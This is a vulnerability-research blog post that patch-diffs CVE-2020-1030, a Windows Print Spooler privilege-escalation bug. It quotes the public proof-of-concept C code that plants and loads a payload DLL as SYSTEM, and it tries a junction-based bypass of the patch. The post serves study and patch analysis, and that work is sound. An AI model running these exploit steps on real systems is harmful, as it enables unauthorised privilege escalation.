# Patch Diffing in the Dark
---
# CVE-2020-1030 - Patch Diffing Yet Another Spooler Bug 
created: 2021-11-30
author: John M

<sub>Photo by [Martin Sattler](https://unsplash.com/@martinsattler?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) on [Unsplash](https://unsplash.com/?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)</sub>

Well, here we are again. This post is inspired by yet another patch diff initiated as an attempt to improve my skill as a vulnerability researcher. As I have [said before](Patch%20Diffing%20In%20the%20Dark%20-%20CVE-2021-1657.md#Putting%20My%20Money%20Where%20My%20Mouth%20Is), patch diffing is an excellent [deliberate practice](https://jamesclear.com/beginners-guide-deliberate-practice#:~:text=Deliberate%20practice%20refers%20to%20a,specific%20goal%20of%20improving%20performance.) to stretch your skills, learn in depth about specific vulnerability classes, and provide you with a new lens by which to discover vulnerabilities. The purpose of this blog is to teach about the lessons learned while patch diffing and attempting to understand new vulnerability classes. 

## Patch Diffing Is No Island Unto Itself 
Patch diffing provides a way to learn about a specific vulnerability with no prior knowledge or availability of public information concerning the vulnerability. It allows a researcher to gain some targeted (or "vulnerability-centric"?) information about what security related code changes were made to remedy a vulnerability. This being the case, patch diffing doesn't always have to be performed blind.  When other sources of information exist, use them alongside patch diffing to increase your understanding.  In reality, patch diffing is just one road of many that lead to vulnerability comprehension. More generally, patch diffing provides clarity into the overarching concept of CVE Analysis (some call it [root cause analysis](https://googleprojectzero.github.io/0days-in-the-wild/rca.html), but as you can in see the ideal process defined below, I consider RCA just another aspect of CVE analysis).

## CVE Analysis
 Generally, I'm defining *CVE analysis* as the study of CVEs with the goal of the identification and comprehension of [vulnerabilities](https://cve.mitre.org/cve/search_cve_list.html) (CVEs) and their related [vulnerability classes](https://cwe.mitre.org/data/definitions/1000.html)(CWEs). It can begin in many ways, and there isn't a particular right way to do it. Essentially, you are looking to increase you understanding of a particular CVE through every means. 
 
 This post will detail my journey analyzing *CVE-2020-1030*, one of the [many](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=spooler) Windows Print [Spooler](https://docs.microsoft.com/en-us/windows/win32/printdocs/print-spooler) bugs (hence the "yet another" in the title) that have be discovered and patched since 2020. The Windows Print Spooler (**spoolsv.exe**) is a prime target for vulnerability research.  It is an [ancient](https://www.darkreading.com/edge-articles/why-windows-print-spooler-remains-a-big-attack-target#:~:text=Print%20Spooler%20is%20more%20than,other%20critical%20enterprise%20Windows%20systems.) (20+ years old) [complex](https://media.defcon.org/DEF%20CON%2028/DEF%20CON%20Safe%20Mode%20presentations/DEF%20CON%20Safe%20Mode%20-%20Zhipeng-Huo%20and%20Chuanda-Ding%20-%20Evil%20Printer%20How%20to%20Hack%20Windows%20Machines%20with%20Printing%20Protocol.pdf) service running as `SYSTEM` and providing printing services to standard Windows users both locally and remotely.  This [knowledge](https://i.blackhat.com/USA21/Wednesday-Handouts/us-21-Diving-Into-Spooler-Discovering-Lpe-And-Rce-Vulnerabilities-In-Windows-Printer.pdf) [has](https://media.defcon.org/DEF%20CON%2028/DEF%20CON%20Safe%20Mode%20presentations/DEF%20CON%20Safe%20Mode%20-%20Zhipeng-Huo%20and%20Chuanda-Ding%20-%20Evil%20Printer%20How%20to%20Hack%20Windows%20Machines%20with%20Printing%20Protocol.pdf) [become](https://i.blackhat.com/USA-20/Thursday/us-20-Hadar-A-Decade-After-Stuxnet-Printer-Vulnerability-Printing-Is-Still-The-Stairway-To-Heaven.pdf) very [apparent](https://windows-internals.com/printdemon-cve-2020-1048/) to security researchers and a "[nightmare](https://bestofcpp.com/repo/nemo-wq-PrintNightmare-CVE-2021-34527-cpp-cryptography)" for Microsoft as the number of blog posts and reported Spooler bugs have sky rocketed. 


<sub>There have been more Windows Print Spooler CVEs in the past two years than the past two decades. </sub>

### Ideal CVE Analysis

Contradicting the theme of this blog, this patch diff was not performed "in the dark".  Rather, there were [several](https://www.accenture.com/us-en/blogs/cyber-defense/discovering-exploiting-shutting-down-dangerous-windows-print-spooler-vulnerability) public blog posts, [tweets](https://twitter.com/search?q=cve-2020-1030), and even a [PoC on github](https://github.com/Accenture/AARO-Bugs/blob/master/CVE-2020-1030/poc.c). For *CVE-2020-1030* we have much more than  simply the typical CVE description. 

 > [CVE-2020-1030](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1030) An elevation of privilege vulnerability exists when the Windows Print Spooler service improperly allows arbitrary writing to the file system, aka 'Windows Print Spooler Elevation of Privilege Vulnerability'.

This is an ideal scenario. 


```mermaid

graph TD;

A[CVE-2020-1030] --> A1;
A --> A2;
A --> A3;
A --> A4;
A --> A5;

A1[Blog Post] --> F;
A2[Github PoC] --> F;
A3[Twitter Brag] --> F;
A4[CVE Description] --> F;
A5[Security Patch] --> F;

F[CVE Analysis + Patch Diffing];
F --> I[System Comprehension]
F --> G[Vulnerability Classification];
F --> H[Root Cause Identification];
G --> J[Develop Mitigation Requirements / Novel Understanding];
H --> J;
I --> J;
J --> K[Discover New and/or Related Vulnerabilities]

```
<sub>**Idealistic VR Process** - Use all relevant information in your journey to vulnerability discovery</sub>

Starting with the numerous of public sources available for *CVE-2020-1030*, you can quickly begin understand the background of the Windows Print Spooler, the details Windows APIs misused, and the Spooler enabled *primitives* (basic building blocks of the vulnerability) that made the Elevation of Privilege possible.  

## CVE-2020-1030 Analysis

### Recap
From the [primary writeup](https://www.accenture.com/us-en/blogs/cyber-defense/discovering-exploiting-shutting-down-dangerous-windows-print-spooler-vulnerability), it is clear that *CVE-2020-1030* is a elevation of privilege vulnerability in the Windows Print Spooler which allows an unprivileged user to run arbitrary code as `SYSTEM`.  This is accomplished via a series of Windows Print Spooler enabled primitives allowing a standard user to create an arbitrary directory as `SYSTEM` , copy a DLL payload to to the protected directory, and finally trigger a `LoadLibrary` call on the placed DLL payload. It was a *logic error*, rather than a memory corruption bug, which allowed the attack to be low complexity. 

### Primitives
More formally, the primitives were:
1. **[`AddPrinter`](https://docs.microsoft.com/en-us/windows/win32/printdocs/addprinter) primitive** - retrieve privileged printer handle to enable [Spooler API](https://docs.microsoft.com/en-us/windows/win32/printdocs/print-spooler-api) calls. Primitive found in the way that Windows operates.
2. **[`CreateDirectory`](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createdirectorya) primitive** - create an arbitrary directory as `SYSTEM` and subsequently assign *WriteData* permissions for all users. Primitive found in `localspl!BuildPrinterInfo`. 
3. **[`LoadLibrary`](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibraryexw) primitive** - Taking advantage of Spooler's [point and print](https://docs.microsoft.com/en-us/windows-hardware/drivers/print/point-and-print-dlls) functionality that provides the ability to load a DLL found in specific sanctioned paths,  `%SYSTEMROOT%\System32\spool\drivers\<ENVIRONMENT>\<DRIVERVERSION>,` and `%SYSTEMROOT%\System32`. Primitive found in `localspl!SplLoadLibraryTheCopyFileModule`.

### Implementation
The primitives were used in the [PoC](https://github.com/Accenture/AARO-Bugs/blob/master/CVE-2020-1030/poc.c) in the following order to accomplish arbitrary 
code execution. 


```mermaid

graph TD;

 a[AddPrinter] --> |SetPrinterDataEx - SpoolDirectory=NewPath| b["LoadLibrary(AppVTerminator.dll)"] --> |Restart spooler| c["CreateDirectory(NewPath)"] --> |"MoveFile(payload.dll)"| d["LoadLibrary(payload.dll)"];

```

Here is a quick walk through of the poc code:

1. Add a new printer and select a standard preinstalled driver (*pDriverName = "Microsoft Print to PDF"*)

```c
LPWSTR pszPrinterName = L"CVE-2020-1030";
LPWSTR pszDriverPath = L"C:\\Windows\\System32\\spool\\drivers\\x64\\4";
LPWSTR pszTerminator = L"C:\\Windows\\System32\\AppVTerminator.dll";

memset(&printerInfo, 0, sizeof(printerInfo));
printerInfo.pPrinterName = pszPrinterName;
printerInfo.pDriverName = L"Microsoft Print To PDF";
printerInfo.pPortName = L"PORTPROMPT:";
printerInfo.pPrintProcessor = L"winprint";
printerInfo.pDatatype = L"RAW";
printerInfo.Attributes = PRINTER_ATTRIBUTE_HIDDEN;

hPrinter = AddPrinter(NULL, 2, (LPBYTE)&printerInfo);
```

2. Set the *SpoolDirectory* to the directory path you want to create *pszDriverPath* that aligns with the `LoadLibrary` primitive using `SetPrinterDataEx`. In this case `%SYSTEMROOT%\System32\spool\drivers\<ENVIRONMENT>\4`.

>Individual spool directories are supported by defining the SpoolDirectory value in a printer’s registry key. If unspecified, the printer is mapped to the DefaultSpoolDirectory instead. 

```c
cbData = ((DWORD)wcslen(pszDriverPath) + 1) * sizeof(WCHAR);
dwStatus = SetPrinterDataEx(hPrinter, L"\\", L"SpoolDirectory", REG_SZ, (LPBYTE)pszDriverPath, cbData);
```

3. The `CreateDirectory` primitive is only available in a spooler service initialization code path (`SplCreateSpooler -> BuildPrinterInfo`).

> The spool directory is created (or mapped if it exists) when localspl!SplCreateSpooler calls localspl!BuildPrinterInfo. This has only been observed when the spooler service initializes; therefore, changes to a printer’s spool directory aren’t reflected until service has restarted. 

As a standard user can't restart the privileged Spooler service, the solution is to either wait for a restart, or forcefully restart spooler. 

>Enter AppVTerminator.dll. This library is a signed Microsoft binary included in Windows (confirmed on Windows 10). When loaded into spooler, the library calls TerminateProcess which subsequently kills the spoolsv.exe process. This event triggers the recovery mechanism in the Service Control Manager which in turn starts a new spooler process.

```c
cbData = ((DWORD)wcslen(L"AppVTerminator.dll") + 1) * sizeof(WCHAR);
dwStatus = SetPrinterDataEx(hPrinter, L"CopyFiles\\Payload", L"Module", REG_SZ, (LPBYTE)L"AppVTerminator.dll", cbData);

```
<sub>Levearge the `LoadLibrary` primitive to kill the print spooler and force a `spoolsv.exe` restart. </sub>

4. Wait for the spooler to restart. 
5. Force Spooler initialization by calling `EnumPrinters` which triggers the `BuildPrinterInfo` code path. 
```c
if (!EnumPrinters(PRINTER_ENUM_LOCAL, NULL, 2, NULL, 0, &cbNeeded, &cReturned))
```
6. Check for directory creation. Copy payload to `%SYSTEMROOT%\System32\spool\drivers\<ENVIRONMENT>\4\<payload>.dll`.
```c
// Move payload to spool directory

mbstowcs_s(NULL, szDll, strlen(argv[1]) + 1, argv[1], MAX_PATH);
GetFullPathName(szDll, MAX_PATH, szSource, &pszFileName);
wcscpy_s(szDestination, MAX_PATH, pszDriverPath);
wcscat_s(szDestination, MAX_PATH, L"\\");
wcscat_s(szDestination, MAX_PATH, pszFileName);

if (!MoveFile(szSource, szDestination))
{
	printf("Failed: MoveFile(), Src: %ls, Dst: %ls. Error: %d\n", szSource, szDestination, GetLastError());
	ClosePrinter(hPrinter);
	return -1;
}
```
7. Open the *CVE-2020-1030* printer (needed because the spooler process has exited since we last held the handle).
```c
// Get printer handle

memset(&printerDefaults, 0, sizeof(printerDefaults));
printerDefaults.DesiredAccess  = PRINTER_ALL_ACCESS;

if (!OpenPrinter(pszPrinterName, &hPrinter, &printerDefaults))
{
	printf("Failed: OpenPrinter(), %ls. Error: %d\n", pszPrinterName, GetLastError());
	ClosePrinter(hPrinter);
	return -1;
}
```

8. Reuse `LoadLibrary` primitive, this time pointing to your newly copied payload. 
```c
// Call LoadLibraryEx (localspl!SplLoadLibraryTheCopyFileModule) with our payload

cbData = ((DWORD)wcslen(szDestination) + 1) * sizeof(WCHAR);
dwStatus = SetPrinterDataEx(hPrinter, L"CopyFiles\\Payload", L"Module", REG_SZ, (LPBYTE)szDestination, cbData);

if (dwStatus != ERROR_SUCCESS)
{
	printf("Failed: SetPrinterDataEx(), %ls. Error: %d\n", szDestination, GetLastError());
	ClosePrinter(hPrinter);
	return -1;
}

```

9. **Boom**

From the write up and PoC it is pretty clear what the primitives are and how they are used. I suggest you take a look at yourself for further details. Understanding the the primitives above give us pretty good insight on how this vulnerability would be patched.  Essentially, Spooler needs to find a way to limit both primitives 2 and 3 at the very least. 

## Patch Diffing CVE-2020-1030

The fun begins. This is when you get to figure out how the particular CVE was fixed and get your first look at the section of code with the security issue. From the wealth of information you have from the *CVE-2020-1030*, then you set off to see how they fixed it with a compass and detailed map to comprehension.

I performed that patch diff using the process laid out in the [first post](Patch%20Diffing%20In%20the%20Dark%20-%20CVE-2021-1657.md#Finding%20a%20CVE%20to%20Diff), *mostly*.  For *CVE-2021-1657* I went about downloading the binaries and the large update files to extract the `fxscompose.dll` I was looking for. 


```mermaid

graph LR;

A[CVE] --> B[MSRC info page];
B --> C[KB article];
C --> D[MUC site];
D --> E[MSU archive];
E --> F[Extract binary from MSU];
```
<sub>Process mapping CVE to a specific security update and eventual acquisition of binary to diff </sub>

For *CVE-2020-1030*, I took a slightly different path. I had [mentioned](Patch%20Diffing%20In%20the%20Dark%20-%20CVE-2021-1657.md#Finding%20My%20Glasses) the existence of a somewhat new site called [*Winbindex*](https://winbindex.m417z.com/) that could be useful for patch diffing. 


<sub> Results from `localspl.dll` query </sub> 

[*Winbindex*](https://winbindex.m417z.com/) provides a database that keeps track of Windows binaries and their corresponding updates over time, even providing you the specific link needed to download the [binary](https://msdl.microsoft.com/download/symbols/localspl.dll/36B931E013e000/localspl.dll) you need directly from Microsoft. This feature alone saves you quite a bit of time extracting gigabytes of Windows binaries to find the one binary you are looking for.


```mermaid

graph LR;

A[CVE] --> B[MSRC info page];
B --> C[KB article];
C --> D[Winbindex];
D --> G[Download binary from Microsoft];
```
<sub>More efficient process mapping CVE to a specific security update and eventual acquisition of binary to diff leveraging *Winbindex* </sub>

Even though it is limited to Windows 10+ binaries due to the [technique](https://m417z.com/Introducing-Winbindex-the-Windows-Binaries-Index/) used to create the index, it has been a huge asset for my patch diffing. 

### Performing the Diff
Here are the exact steps I took for the diff: 
1. [CVE-2020-1030](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1030) -> [MSRC CVE-2020-1030](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2020-1030) -> [KB Article 4571756](https://support.microsoft.com/help/4571756)
2. Download *Windows 10 2004*` localspl.dll` `localspl.dll.10.0.19041.508` (first patched version of *CVE-2020-1030*) and the N-1 or vulnerable `localspl.dll` version `localspl.dll.10.0.19041.450`.
3. Load in Ghidra, start [version tracking](https://ghidra.re/courses/GhidraClass/Intermediate/VersionTracking_withNotes.html) session.  For more details of this process see [Patch Diffing With Ghidra](Patch%20Diffing%20In%20the%20Dark%20-%20CVE-2021-1657.md#Patch%20Diffing%20With%20Ghidra)
4. Discover changes. 

### One function changed - SplSetPrinterDataEx



Ghidra's *Version Tracker* was able to discover one function that had changed. Specifically `SplSetPrinterDataEx`, which makes complete sense as this was the Windows Print Spooler API used several times throughout the PoC. 

```c
cbData = ((DWORD)wcslen(pszDriverPath) + 1) * sizeof(WCHAR);
dwStatus = SetPrinterDataEx(hPrinter, L"\\", L"SpoolDirectory", REG_SZ, (LPBYTE)pszDriverPath, cbData);
```
<sub>*SetPrinterDataEx* PoC code related to `CreateDirectory` primitive</sub>

```c
cbData = ((DWORD)wcslen(szDestination) + 1) * sizeof(WCHAR);
dwStatus = SetPrinterDataEx(hPrinter, L"CopyFiles\\Payload", L"Module", REG_SZ, (LPBYTE)szDestination, cbData);
```
<sub>*SetPrinterDataEx* PoC code related to `LoadLibrary` primitive</sub>

`SetPrinterDataEx` was used both to configure the printer's *SpoolDirectory* critical for the `CreateDirectory` primitive and also to trigger the `LoadLibrary` primitive by setting a specific `Module` value under a `CopyFile\Payload` setting on the printer. 

#### Comparing SplSetPrinterDataEx
<sub> Ghidra's decompilation viewed in VS Code Diff </sub>

The new code within the patched localspl.dll `SplSetPrinterDataEx` is here. 

```c
/*** New Code Start ***/
      iVar2 = _wcsicmp((wchar_t *)pKeyValue,L"SpoolDirectory");
      if ((iVar2 == 0) && (Type == 1)) {
        pwVar8 = (wchar_t *)(ulonglong)cbData;
        iVar2 = IsValidSpoolDirectory((uchar *)pData,cbData);
        if (iVar2 == 0) {
          dwError = 0x57;
          goto LAB_18009c564;
        }
      }	  
/*** New Code End ***/	  
	lVar6 = RevertToPrinterSelf();  //impersonation of user ends
```
<sub>New code within localspl.dll (10.0.19041.508) `SplSetPrinterDataEx`</sub>

At first glance, it seems obvious they added a simple function to "validate" the attempt to configure the *SpoolDirectory* for the printer.

#### Auditing IsValidSpoolDirectory

<sub> Lower Pane View from Ghidra Version Tracker displaying a single unmatched (aka new) function </sub>

How is this new validation taking place? Please remember that the new code above was added just before the call to [RevertToPrinterSelf](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/winsplp/nf-winsplp-reverttoprinterself), which means that it is run in the context of the user. 

```c
int IsValidSpoolDirectory(void *pData,uint cbData)

{
  uint uVar1;
  int extraout_EAX;
  LPCWSTR lpFileName;
  HANDLE hFile;
  undefined8 local_228 [66];
  ulonglong local_18;
  
  local_18 = __security_cookie ^ (ulonglong)&stack0xfffffffffffffd98;
  if ((pData != (void *)0x0) && (cbData - 1 < 0x207)) {
    memset(local_228,0,0x208);
    memcpy(local_228,pData,(ulonglong)cbData);
    lpFileName = (LPCWSTR)AdjustFileName(local_228);

    if ((lpFileName != (LPCWSTR)0x0) &&
       ((hFile = CreateFileW(lpFileName,0x40000000,1,(LPSECURITY_ATTRIBUTES)0x0,3,0x200000,(HANDLE)0x0), 
		 hFile != (HANDLE)0xffffffffffffffff ||
        (hFile = CreateFileW(lpFileName,0x40000000,1,(LPSECURITY_ATTRIBUTES)0x0,4,0x4200000,(HANDLE)0x0), 
		 hFile != (HANDLE)0xffffffffffffffff)))) 
	{
      uVar1 = IsPortAlink(lpFileName,hFile);
      if ((int)uVar1 < 0) {
        SetLastError(uVar1 & 0xffff);
      }
      CloseHandle(hFile);
    }
  }
  __security_check_cookie(local_18 ^ (ulonglong)&stack0xfffffffffffffd98);
  return extraout_EAX;
}
```

It seems like it takes the input (*pData*) of the provided *SpoolDirectory* and attempts to open the file using `CreatefileW`. 

```c
HANDLE CreateFileW(
  [in]           LPCWSTR               lpFileName,
  [in]           DWORD                 dwDesiredAccess,
  [in]           DWORD                 dwShareMode,
  [in, optional] LPSECURITY_ATTRIBUTES lpSecurityAttributes,
  [in]           DWORD                 dwCreationDisposition,
  [in]           DWORD                 dwFlagsAndAttributes,
  [in, optional] HANDLE                hTemplateFile
);
```
<sub>CreateFile Function Signature - [CreateFileW function (fileapi.h) - Win32 apps | Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilew)</sub>

The first `CreateFileW` is opening the file asking for *GENERIC_WRITE* privileges as its *dwDesiredAccess* parameter (0x40000000) and asking with a *dwDisposition* of *OPEN_EXISTING* (3). The second `CreateFileW` is calling requesting the same privileges, allowing the file not to exist by using a  *OPEN_ALWAYS* (4) disposition with some additional flags set (**FILE_FLAG_OPEN_REPARSE_POINT** | **FILE_FLAG_DELETE_ON_CLOSE** ) ensuring that if a file is created from this `CreateFile` call it will delete and that the path is not a reparse point.   If either `CreateFileW` succeeds, it proves the user has write access.  After that, it does some symlink checks within `IsPortALink`. 

In conclusion `SplSetPrinterDataEx` -  Now checks that the user has write privileges to the specified directory before changing the printer configuration of the *SpoolDirectory* in `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Print\Printers\CVE-2020-1030\SpoolDirectory`.  

This effectively limits the original CVE by breaking the `CreateDirectory` primitive. 


```mermaid

graph TD;

  

 a[AddPrinter]--> |"SetPrinterDataEx - SpoolDirectory=NewPath"| B{"IsValidSpoolDir?(NewPath)"};
 B --> |Yes. User owned paths only.| C["Can't create directory needed for LoadLibrary()"];

 B --> |No| E[Fail. SpoolDirectory not set.];

```


### Treating the Symptoms or Cure?

After performing the patch analysis it seemed apparent that there were some issues with it. Only one function was updated that simply addressed the `CreateDirectory` primitive. Didn't we identify 3 primitives?  I wondered if I had missed something. There was only one modification to `localspl.dll`.  I even found a similar reference on a site I'm beginning to have a lot in common with, further confirming that there was only one check added. 

>Microsoft's patch for this issue fixed the way a non-admin user can specify the spooler folder for a printer: Print Spooler service now checks (while impersonating the user) if said user has sufficient permissions to create such folder, including some symbolic link checks to thwart symlink-related shenanigans Print Spooler has been found to be riddled with. -[blog.0patch.com](https://blog.0patch.com/2021/02/print-spooler-keeps-delivering.html)

Also, the patch seemed a bit weak. They added a **check** to validate the supplied *SpoolerDir* on the `SplSetPrinterDataEx` printer configuration. But... but! 

>The spool directory is created (or mapped if it exists) when localspl!SplCreateSpooler calls localspl!BuildPrinterInfo. This has only been observed when the spooler service initializes; therefore, changes to a printer’s spool directory aren’t reflected until service has restarted. [Source](https://www.accenture.com/us-en/blogs/cyber-defense/discovering-exploiting-shutting-down-dangerous-windows-print-spooler-vulnerability) 

The `CreateDirectory` primitive **uses** the supplied path later during the Spooler initialization.  Wouldn't you need to perform the check there as well?? What if a user supplied a path to a folder owned by the user, then [changed](https://offsec.almond.consulting/intro-to-file-operation-abuse-on-Windows.html) it later? It seems like this patch would leave open a [TOCTOU](https://cwe.mitre.org/data/definitions/367.html), which would revive the "patched" `CreateDirectory` primitive.  

Also! what about the other two primitives that don't seem to even be addressed?  

>1. **[`AddPrinter`](https://docs.microsoft.com/en-us/windows/win32/printdocs/addprinter) primitive** - retrieve privileged printer handle to enable [Spooler API](https://docs.microsoft.com/en-us/windows/win32/printdocs/print-spooler-api) calls. Primitive found in the way that Windows operates.
>3. **[`LoadLibrary`](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibraryexw) primitive** - Taking advantage of Spooler's [point and print](https://docs.microsoft.com/en-us/windows-hardware/drivers/print/point-and-print-dlls) functionality that provides the ability to load a DLL found in specific sanctioned paths,  `%SYSTEMROOT%\System32\spool\drivers\<ENVIRONMENT>\<DRIVERVERSION>,` and `%SYSTEMROOT%\System32`. Primitive found in `localspl!SplLoadLibraryTheCopyFileModule`.

The patch for CVE-2020-1030 seems much **more like a band aid than a cure**. Time to try out the PoC. 

## Trying the CVE-2020-1030 PoC 


Using the original PoC. Yep. Failed. The two calls to `CreateFile` within `IsValidSpoolerDir` as a result of a `SetPrinterDataEx` call with a *SpoolDirectory* set to a path the user does not have write access to `%SYSTEMROOT%\System32\spool\drivers\x64\4`.

<sub> Figure 1 - Two `CreateFile` calls within `localspl!IsValidSpoolDir`</sub>

From the *ProcMon* (Process Monitor) output, you can see the two `CreateFile` calls, the first with an OPEN_EXISTING flag reporting "NAME NOT FOUND" and the second trying to create the directory receiving *ACCESS DENIED*. With the two `CreateFile` calls failing, causing `IsValidSpoolerDir` to fail and `SetPrinterDataEx` to return an error. That seems to line up with what we have seen in Ghidra for the patch diff. 

What about my idea? Let's try out this trick of first specifying a *SpoolDirectory* that is owned by the user first, and try to change it before the `CreateDirectory` primitive is called. 

### TOCTOU  CVE-2020-1030 Patch Bypass? 
1. Create a new directory called junction.
2. Configure the *CVE-2020-1030* printer with the new directory. I appended a "\4" to the end of my directory as that is a requirement for the `CreateDirectory` primitive along with the fact that the directory path cannot already exist. 
```c
LPWSTR pszDriverPath = L"C:\\Users\\User\\Desktop\\junction\\4";
DWORD cbData;
/*
...
*/
cbData = ((DWORD)wcslen(pszDriverPath) + 1) * sizeof(WCHAR);
dwStatus = SetPrinterDataEx(hPrinter, L"\\", L"SpoolDirectory", REG_SZ, (LPBYTE)pszDriverPath, cbData);
```

OK. So far so good.  It passed the `IsValidSpoolerDirectory`.



OK. Can I revive the original *CVE-2020-1030* by using this new trick?  Set a [reparse point](https://docs.microsoft.com/en-us/windows/win32/fileio/reparse-points) on my *junction* directory. 
	
```powershell
PS C:\Users\User\Desktop> New-Item -ItemType Junction -Path "C:\Users\User\Desktop\junction"  -Target "C:\WINDOWS\system32\spool\drivers\x64"
```

At this point, we have manually recreated steps 1 and 2 of the original PoC. We have set our user directory to mimic the original PoC. Now we simply need to restart the spooler (which I manually performed using *services.msc*) and force a call to `EnumPrinter` (triggering the `BuildPrinterInfo` -> `CreateDirectory` primitive path), which can be done with a call to with `Get-Printer`.

```powershell
PS C:\Users\User\Desktop> Get-Printer

Name                           Type   DriverName                PortName   
----                           ----   ----------                --------   
Microsoft XPS Document Writer  Local  Microsoft XPS Document... PORTPROMPT:
Microsoft Print to PDF         Local  Microsoft Print To PDF    PORTPROMPT:
Fax                            Local  Microsoft Shared Fax D... SHRFAX:    
CVE-2020-1030                  Local  Microsoft Print To PDF    PORTPROMPT:
```
<sub> Forcing call to `EnumPrinter` using *Get-Printer* cmdlet</sub>

```powershell
PS C:\Users\User\Desktop> ls C:\Windows\System32\spool\drivers\x64\4
ls : Cannot find path 'C:\Windows\System32\spool\drivers\x64\4' because it does not exist.
```

Hmm. No go. The directory I expected to create isn't there. What happened?


<sub> Procmon - Figure 2 - CVE-2020-1030 PoC Run with latest *localspl.dll*</sub>

It seems like **my idea actually worked**. The directory is created (1st call to `CreateFile`), but it is immediately deleted (2nd call to `CreateFile`). What is happening?  According to my patch diff, there was only one change. Then I remembered. I was patch diffing the original patch of `localspl.dll` from Windows 2004 across the updates from August 2020 to September 2020, while I was testing on latest Windows 11 (November 2021). With something like 20 Spooler CVEs since this one, we will have to assume there have been quite a few more changes.  

### Discovering More Changes


<sub>Ghidra's *Version Tracking* comparing *localspl.dll* Windows 2004 Nov 2020 10.0.19041.508 with Dec 2021 10.0.19041.1415. **15 brand new functions, and 25 functions modified**.  </sub>

Since the [original](https://www.accenture.com/us-en/blogs/cyber-defense/discovering-exploiting-shutting-down-dangerous-windows-print-spooler-vulnerability) patch in September 2020 (10.0.19041.508), it is clear that the `CreateDirectory` primitive has been prevented by another means than the initial patch. It also implies that **my junction directory TOCTOU trick would have worked against some intermediate version of Spooler**.  Perhaps one of the other CVEs reported since then was that very workaround?


```mermaid

graph TD;

 a[AddPrinter]--> |SetPrinterDataEx - SpoolDirectory=NewPath| a1{IsValidSpoolDirectory?} --> |Yes. NewPath is user owned by user| a2["Set reparse point on NewPath to any path"];
 
a1 --> |No| c[Fail];
a2 --> b[Everything works?];

```

The `CreateDirectory` primitive relied on code within `localspl!BuildPrinterInfo`. 


<sub>`CreateDirectory` primitive within `localspl!BuildPrinterInfo` (10.0.19041.508) </sub>

After the *CVE-2020-1030* patch, it was untouched. No check was added to the directory creation and we have proved that it is vulnerable to the TOCTOU user supplied *SpoolerDirectory*. Actually, this code has [been there](https://github.com/Paolo-Maffei/OpenNT/blob/5c5b979ec08c17d3ca2eb70e8aad62d26515d01c/printscan/print/spooler/localspl/init.c#L1576) for quite some time.  But that was then and this is now. 

From our test with the PoC above, it seems that a new "delete" action is taking place within `BuildPrinterInfo` as well.



*ProcMon* provides a call stack view the the `NtDeleteFile` call, even providing the relative return address of the call within `BuildPrinterInfo`. Let's take a look in Ghidra. 


`BuildPrinterInfo + 0xcc5` is the return address from an `NtDeleteFile` call that deleted the directory I tried to create. It seems to be the error case of an expression that looks remarkably like the original `CreateDirectory` primitive, well minus the whole "`CreateDirectory`" function call aspect of it. That being said, they are still using that  "Everybody DACL" needed for the `CreateDirectory` primitive.




#### Grandma, What Big Teeth You Have
Looking further into this new version, the reality is that the `CreateDirectory` primitive is a monster compared to what it was before. 



<sub> Left: Original `CreateDirectory` Primitive from *localspl.dll.10.0.19041.508* (*CVE-2020-1030*) </sub>
<sub>Right: New `CreateDirectory` Primitive from localspl.dll.10.0.22000.282 (recent) </sub>


The new `CreateDirectory` primitive found in the latest Spooler is spans several more lines of code and checks.  Compared to the original call graph this seems like quite a bit to handle, but we can break it down.  After quite some time studying the new primitive, this is what I came up with. 

```c
void BuildPrinterInfo(_INISPOOLER *spooler, int param_2)
{

	dwStatus = 0;
	/*
	[...]
	*/

	// path from CVE-2020-1030
	// pUserSpoolDir = "C:\Windows\System32\spool\drivers\x64\4"
	// Driver Dir from Spooler  
	// pDriverDirectory = "C:\Windows\System32\spool\drivers\x64"

	GetFullPathNameW(pUserSpoolDir,szUserFullPathSpoolDir..)

	OBJECT_ATTRIBUTES obj = {0};
	InitiObjectAtrributes(obj,szUserFullPathSpoolDir,...)  		//[1]

	// Create new SpoolDir
	if(!NtCreateFile(hSpoolerDir,STANDARD_RIGHTS_ALL,&obj,FILE_CREATE,...) //[2]
	{
		dwStatus = 1;
	}    
	else
	{
		// Open Existing SpoolDir (CreateDirectory Primitive Fail Case)    
		if (!NtCreateFile(hSpoolDir, SYNCHRONIZE, &obj, OPEN_EXISTING, ...))
		{
			// FAIL - Null out SpoolDir
			pIniPrinter->pSpoolDir = 0;
			dwStatus = 0;
		}

	}

	if ((pIniPrinter->pSpoolDir != 0) &&
				(hSpoolDir != INVALID_HANDLE_VALUE))
	{

	//create the path name from the handle of the open file
	GetFinalPathNameByHandleW(hSpoolDir, szSpoolerDirPathFromHandle, ...)
		pszSpoolerDirUNCPathFromHandle =
			ConvertFullPathToLongUNC(szSpoolerDirPathFromHandle)

	// Check the path name from the handle.  
	if ((pszSpoolerDirUNCPathFromHandle == NULL) ||
	IsPathAlink(pszSpoolerDirUNCPathFromHandle) ||				//[3]
	IsModuleFilePathAllowed(pszSpoolerDirUNCPathFromHandle, 	//[4]
		pDriverDirectory)) // CVE-2020-1030 mitigation
	{
		//FAIL - Null out printer SpoolDir
		pIniPrinter->pSpoolDir = 0;
	}
	else
	{
		//CreateDirectory Primitive Succeeds
		SetSecurityInfo(hSpoolDir, ..., EverybodyDACL)
		dwStatus = 0;
	}

	if (dwStatus != 0)
	{
		// ERROR - Directory Created but not properly setup.
		pIniPrinter->pSpoolDir = 0;

		// Essentially DeleteFile(szUserSpoolerDirPath);
		NtDeleteFile(&obj);										//[5]
	}


	/*
	[...]
	*/
	
}
```
<sub> `BuildPrinterInfo` `CreateDirectory` Pseudo code </sub>

Whereas the original primitive called `CreateDirectory` solely based on the user provided *SpoolerDirectory*, this new version has several more checks ([3] and [4]).  

The path provided by the user seems to be checked against the following functions:
	- `IsPathALink` - Determines if user supplied *SpoolDirectory* is a symlink using `GetFileAttributes`
